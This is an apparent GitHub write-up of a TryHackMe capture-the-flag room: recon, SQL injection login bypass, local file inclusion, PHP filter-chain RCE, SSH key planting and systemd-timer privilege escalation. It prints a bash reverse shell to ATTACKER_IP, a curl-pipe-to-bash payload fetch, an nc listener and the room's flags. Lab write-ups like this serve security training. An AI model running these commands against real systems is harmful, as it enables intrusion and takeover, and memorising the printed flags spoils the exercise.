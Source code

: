 # ROOT-ME | TryHackMe Room
![1](./images/0.png)
This walkthrough details the step-by-step process of solving the CHEESE CTF, covering reconnaissance, exploitation, privilege escalation, and ultimately gaining root access. The target machine had several vulnerabilities, including SQL injection, Local File Inclusion (LFI), and misconfigured systemd timers.


### **1. Initial Reconnaissance**

**Port Scanning**

- Used Nmap to scan the first 1000 ports (nmap -p 1-1000 <TARGET_IP>).
![1](./images/1.png)

- Found that FTP (21), SSH (22), and HTTP (80) were open.
- Ran a detailed scan on these ports (nmap -sV -A -p 21,22,80 <TARGET_IP>) to identify services and versions.
![1](./images/2.png)

**FTP Enumeration**

- Attempted to connect via FTP (ftp <TARGET_IP>), but encountered an error.
 ![3](https://github.com/user-attachments/assets/ff96c1ee-cb1a-4cac-b203-b8d301db921f)
Possible issues:
- Anonymous login disabled.
- Credentials required (not yet obtained).

**Web Enumeration (Port 80)**
- Visited http://<TARGET_IP> and inspected the page.
![4](https://github.com/user-attachments/assets/0ff111fc-e85f-47b3-b0f2-688dd9545174)

- Checked the source code for hidden comments or secrets—nothing found.
![5](https://github.com/user-attachments/assets/866ee626-b598-4b1b-b901-328905eaf49b)

- Discovered a login page (/login.php). 
![6](https://github.com/user-attachments/assets/c3569166-9430-453d-aba2-e175b484654b)



### **2. Exploiting SQL Injection**
**SQLmap for Automated Testing**

- Ran SQLmap to test for SQLi:
`sqlmap -u "http://<TARGET_IP>/login.php" --forms --batch`
![7](https://github.com/user-attachments/assets/2116f5ba-01dd-470d-929c-d4f93d7f363a)

- Found a SQL injection vulnerability in the login form and the redirection.
![8](https://github.com/user-attachments/assets/afe330b3-0a7e-45f7-ba85-4ec938bb7e8d)

- Extracted database information, including a username (comte) and its password hash.
![9](https://github.com/user-attachments/assets/c8a7e7d1-8100-4bff-b44e-ca309d333714)


**Manual SQL Injection Bypass**

- Used a classic SQLi payload to bypass authentication:
```
Username: comte ' AND 1='1 --
Password: anything
```
![10](https://github.com/user-attachments/assets/f53cabec-be72-481b-8f71-5dccca1cff78)

- Successfully logged in and was redirected to a dashboard (/dashboard.php).
![11](https://github.com/user-attachments/assets/53e055b8-aa84-4a85-af9e-4e56e1355783)



### **3. Exploiting Local File Inclusion (LFI)**
**Testing LFI in the file Parameter**

- Discovered an LFI vulnerability in the file parameter (e.g., ?file=/etc/passwd).
- Retrieved /etc/passwd, confirming user comte exists.
![12](https://github.com/user-attachments/assets/f239a641-8683-4527-8747-c9d05212e21c)


**Reading PHP Files via Base64 Encoding**
- Used PHP filters to read source code:
`?file=php://filter/convert.base64-encode/resource=secret-script.php`
![13](https://github.com/user-attachments/assets/bc848ef3-430f-4120-864f-1f3c62a63ab6)


- Decoded the Base64 output to analyze secret-script.php.
![14](https://github.com/user-attachments/assets/0c5d129c-863c-48b5-afaf-706775ddfd45)


**Log Poisoning → RCE**

- Since the server used PHP, leveraged PHP wrappers for RCE:
Wrote a malicious payload(revshell) with this bash reverse shell.
`bash -i >& /dev/tcp/ATTACKER_IP/PORT 0>&1` 
- I used the php-filter-chain script from the github to generate the filters to upload 
[🔗 Github link for the script ](https://github.com/synacktiv/php_filter_chain_generator.git)
using command

`python3 php_filter_chain_generator.py --chain '<?= 'curl -s -L <Attacker_IP>/<payload name>|bash' ?>'`
![15](https://github.com/user-attachments/assets/1d7ffe22-ade6-415e-b3a3-0f0dff277c24)

- Hosted it on a local server and triggered it via LFI.
`python3 -m http.server 80`
- Set up a listener  and received a shell.
`nc -lvnp <port>`
![16](https://github.com/user-attachments/assets/66814261-96fa-4b99-8ede-f08af2717c1f)


**User Flag**
- Found the user.txt in the home/comte directory but it had no permissions for us. as we are logged in as `www-data`
![17](https://github.com/user-attachments/assets/ac1b57c6-30e8-44d2-86e7-2b06a5b84d18)

- Found that /home/comte/.ssh/ had write permissions.
![18](https://github.com/user-attachments/assets/f3b421dd-c113-4296-91f3-ce1d969baaf6)

- Generated an SSH key pair (ssh-keygen).
![19](https://github.com/user-attachments/assets/f20e2be6-e418-47f6-8bba-ae55d2e25b91)

- Copied the public key (.pub) into authorized_keys.
![20](https://github.com/user-attachments/assets/d1607631-50de-4447-989a-74605bc9c272)

- Logged in via SSH and obtained the user flag.
`ssh comte@<TARGET_IP>`
![21](https://github.com/user-attachments/assets/09b87653-158c-417d-9ec0-81dd514f869e)
`THM{9f2ce3df1beeecaf695b3a8560c682704c31b17a}`


### **4. Privilege Escalation (User → Root)**
**Abusing Systemd Timer Privileges**
- Checked sudo privileges (sudo -l), found systemctl access.
![22](https://github.com/user-attachments/assets/e5de6f88-6066-4009-a878-a27a1442a99e)
- Discovered a misconfigured systemd timer (exploit.timer). and Modified the timer to execute immediately:
```
OnBootSec=0  
OnUnitActiveSec=0  
```
- ![23](https://github.com/user-attachments/assets/a6392e95-c03c-400d-9cff-797bcc587fec)


- Found the services it will triggered

![24](https://github.com/user-attachments/assets/faa4280e-4aee-467c-b5cd-1e85a7e4244a)

- I looked in the .services and then I started the timer.
`sudo systemctl start exploit.timer`
![25](https://github.com/user-attachments/assets/d97e5090-3ad1-42c6-b4a7-58be453bdefa)


**Reading Root Flag via xxd**
- Found that xxd (a hexdump utility) saved as a copy had SUID permissions.
![26](https://github.com/user-attachments/assets/b67576f6-6dad-4efc-8254-9fed5e1c0ca3)

- Used xxd to read /root/root.txt:
`xxd "/root/root.txt" | xxd -r`
![27](https://github.com/user-attachments/assets/5760dad8-4b5c-4364-a53a-be793792d92c)
`THM{dca75486094810807faf4b7b0a929b11e5e0167c}`
